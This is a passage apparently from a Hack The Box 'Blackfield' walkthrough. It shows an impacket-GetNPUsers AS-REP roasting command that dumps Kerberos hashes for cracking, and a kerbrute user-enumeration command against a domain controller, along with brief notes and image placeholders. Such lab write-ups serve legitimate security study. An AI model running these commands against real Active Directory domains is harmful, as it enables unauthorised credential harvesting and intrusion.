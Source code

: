 ```
impacket-GetNPUsers BLACKFIELD.local/ -no-pass -dc-ip $IP -format hashcat -outputfile hashes.asreproast -usersfile users.txt
```
- While i enumerate users and i saw this strange username but that is format of password

![](/assets/img/HTB/easy/Blackfield/asp.png)
- Output of above

![](/assets/img/HTB/easy/Blackfield/ke.png)
- GetNPusers was very slow but with use of kerbute

```
kerbrute userenum -d BLACKFIELD.local --dc $IP users.txt
```
